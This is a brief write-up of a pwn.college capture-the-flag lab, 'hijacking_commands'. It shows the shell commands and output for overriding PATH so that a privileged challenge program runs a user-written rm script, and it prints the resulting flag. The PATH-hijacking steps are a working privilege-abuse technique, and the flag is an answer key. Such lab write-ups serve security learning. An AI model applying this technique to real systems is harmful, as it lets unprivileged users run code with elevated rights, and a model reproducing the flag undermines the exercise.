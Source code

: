 # CTF Challenge: hijacking_commands

## Table of Content

- commands-executed: chmod +x rm , ./rm , /challenge/run ,PATH="/home/hacker/rm:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:", echo $PATH
- flag :pwn.college{8_HBlRqCFQGtq6LPG4Opu2_PGyr.ddzNyUDLzETN0czW}


### Output:

hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ ./rm
cat: /flag: Permission denied
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ PATH="/home/hacker/rm:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
./rm: line 1: cat: command not found
hacker@path~hijacking-commands:~$ /usr/bin/nano rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{8_HBlRqCFQGtq6LPG4Opu2_PGyr.ddzNyUDLzETN0czW}
